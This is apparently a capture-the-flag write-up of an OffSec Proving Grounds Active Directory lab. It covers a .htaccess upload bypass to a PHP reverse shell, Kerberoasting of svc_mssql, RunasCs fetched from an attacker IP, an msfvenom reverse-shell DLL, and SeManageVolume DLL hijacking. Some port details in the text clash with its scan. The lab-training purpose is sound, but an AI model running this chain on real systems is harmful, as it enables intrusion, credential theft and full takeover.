Nmap scan

```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.245.187
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-27 11:04 IST
Warning: 192.168.245.187 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.245.187
Host is up (1.7s latency).
Not shown: 44191 closed tcp ports (reset), 21324 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49669/tcp open  unknown
49674/tcp open  unknown
49679/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 93.99 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 53,80,88,135,139,389,443,445,464,593,3268,3269,5985,9389,49664,49665,49666,49669,49674,49679 192.168.245.187
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-27 11:08 IST
Nmap scan report for 192.168.245.187
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-27 05:39:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-27T05:39:58
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.45 seconds
```

What catches your eye?

Seeing ports 53 (DNS), 88 (Kerberos Authentication), and 389 (LDAP) immediately identify this as a Domain Controller. Note that the domain “access.offsec” is listed (ignore the zero at the end). We see an Apache web sever on 80. The standard SMB ports of 139 and 445 in combination with 5985 indicates possible Remote Management access. 636 (Secure LDAP) and 2369 are indicated as “tcpwrapped” which is vague — more clarity may be gained with a netcat banner grab or re-running Nmap targeting just those ports with the -T0 flag to go ultra slow. Lastly we have an unknown (to me at least) .NET message framework on 9389 followed by a slew of Microsoft RPC ports.

Since we see a web server we should open another tab and start a Gobuster scan. This will run for awhile so we want to start it early and we will check back on it later. Before initial access, try to have some enumeration scan running in the background (unless you are trying to remain undetected in which case every packet should be considered).

Visited web server on port 80.


After scrolling down, we found a `browse` option to upload a file.



Directory brute forcing.

```sh
ffuf -u http://192.168.245.187/FUZZ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -c -fc 400,401,403,404
```



Nmap previously indicated that the web server is running PHP 8.0.7 and if you missed it, you can check Wappalyzer (which is best practice anyway).



Now, as we have already found a place to upload a file, we will try to upload a PHP reverse shell.

Let’s try a the PHP Ivan Sincek shell from [https://www.revshells.com/](https://www.revshells.com/)







We are redirected and discover that they are wise to our ways. PHP is not allowed.



We are then shuffled back to the home page where we are free to try another file type. By exhaustion, we learn the none of the PHP type extensions will be accepted. Here’s where it gets fun!

But I found that apart from known script extensions like ".php" and ".php4", I was able to upload files with my own extension such as ".xxx".

I then uploaded the web shell as "rev.xxx" to the server and boom. The server accepted it.







It turned out the server didn't render the shell at all due to the unknown extension, it printed out the source code.\



It can be noticed that the server running on the machine is apache. So we could potentially upload a ".htaccess" file to the directory to let the server render my ".xxx" extension as PHP script. John Hammond has a [video](https://www.youtube.com/watch?v=xZd1JWmLGLk) to explain it well.

I made a ".htaccess" file and sent it to the server.

```sh
echo "AddType application/x-httpd-php .xxx" > .htaccess
```



Be aware that to be able to select this file for upload, you will have to change your view setting with a right-click after browsing to its location.





The ".htaccess" file wasn't shown in the "/uploads" directory because it is a hidden file. But after uploading it, I could see the web shell we uploaded just now had been rendered. The server now renders the ".xxx" extension as PHP. And it allowed me to perform command execution. And we got the shell.





Now…what are our privileges? What does the environment look like and how are we going become Admin?



Moving on. If we are not going to abuse privileges for escalation, what else do we have? Well, it’s an Active Directory machine, we could look for some AD credentials…or we could make some.

We will start by getting a Service Principal Name. There is an excellent Powershell script for this:

https://github.com/compwiz32/PowerShell/blob/master/Get-SPN.ps1

Let’s move it to the box. I always like to work from the C:\Users\Public directory because it is always present and nearly always accessible.





Since it is a Powershell script, let’s change shells on the victim machine and run the script.



This produces two items, one of which is useful.



The MSSQL service account will likely have better privileges. Now that we have the SPN, we are able to request a ticket and store it in memory with the end goal of getting it’s hash.

```PS
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'
```



To get the kerberoast hash of the ticker, "[Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)" is needed to extract the hash from memory.

It can be downloaded through the command:

```sh
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```

OR 

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1?source=post_page-----b95d3146cfe9---------------------------------------





Transfer it to the victim and run.



### Correct Way (Dot Sourcing) 

You need to **load the script into memory**:

`. .\Invoke-Kerberoast.ps1`

Notice:

- There is a **space between the two dots**
- This is called **dot sourcing**

### Then run:

`Invoke-Kerberoast -OutputFormat Hashcat`

### Bonus: Verify function is loaded

After dot sourcing, run:

`Get-Command Invoke-Kerberoast`

If it shows → you’re good 



As you can see, the hash is messy. We need t clean it up to crack it. This is where sublime text is very useful. Paste it in to a new document.





We need clean single line hash.

```sh
tr -d ' \n\r\t' < hash.txt > clean_hash.txt
```





To verify the credential I just obtained, I could use "crackmapexec" to see whether the server accepts the password.

It turned out that the password was accepted, but it couldn't be used to log in through "WINRM", which meant I might need to log in to "svc_mssql" within the machine.

```sh
crackmapexec smb 192.168.245.187 -u 'svc_mssql' -d access.offsec -p 'trustno1'
```





To get access to "svc_mssql" within the machine, I need to run commands as "svc_mssql" to get a reverse shell.

The "[Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)" script could be used in this case.

Retrieve it, move it to the victim box, and Import it.

```PS
iwr http://192.168.45.215:8000/Invoke-RunasCs.ps1 -outfile Invoke-RunasCs.ps1

Import-Module .\Invoke-RunasCs.ps1

Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
```



Verify we have command execution as the target user.



We receive a warning message advising us of additional advanced functionality, but we don’t need that in this case. Let’s go for a reverse shell using msfvenom.



Transfer it to the victim and run it with the RUN-AS command used previously. Remember to set up a listener as before but on a different port.





After running below RUN-AS command, we got the shell.

```PS
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "shell.exe"
```





Captured the local flag.



### Privilege Escalation

The "SeManageVolumePrivilege" privilege was set to enabled on the "svc_mssql" user, which was interesting.



After some research, I found a [SeManageVolumeAbuse](https://github.com/xct/SeManageVolumeAbuse) GitHub repo that can be used in this circumstance.

The general idea is that the attacker can leverage this particular privilege with the exploitation to get full control over "C:\", and then it can craft a ".dll" file and place it in somewhere "C:\Windows\System32\" to trigger the payload as root.

I then downloaded the binary executable from [here](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public) and transferred it to the machine.

After running the exploit, I could see I was able to write to the "C:\Windows\System32\" folder.

**Transfer the file and run it.**





Running the exploit.



After running the exploit, I could see I was able to write to the "C:\" drive.



Demonstration we can write to the C: drive.



In summary, we can leverage our newfound super powers to hijack a DLL used by anything. We will use systeminfo’s tzres.dll but you should be able to use any .dll if you are willing to do the research.

Create another reverse shell outputting the file as tzres.dll and transfer it to the victim; placing it in the `C:\windows\system32\wbem` directory. I’m going to cancel my initial access shell and reuse port 135 because I’m fond of it, but there do not appear to be any outgoing firewall rules to prevent you from just using another port and having three shells on the box. It is probably advisable to do it that way.

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.215 LPORT=6666 -f dll > tzres.dll
```

Transferring file to `C:\Windows\System32\wbem`





Finally (with your listener set up) run the systeminfo command.



And we received the shell.



Reference link : 

https://medium.com/@Dpsypher/proving-grounds-practice-access-b95d3146cfe9

https://systemweakness.com/proving-grounds-practise-active-directory-box-access-79b1fe662f4d

List of tools used :

https://github.com/xct/SeManageVolumeAbuse

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9---------------------------------------

https://github.com/compwiz32/PowerShell/blob/master/Get-SPN.ps1

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1?source=post_page-----b95d3146cfe9---------------------------------------

https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1

For privilege escalation : 

https://www.youtube.com/watch?v=gVLoHAl-8Z0


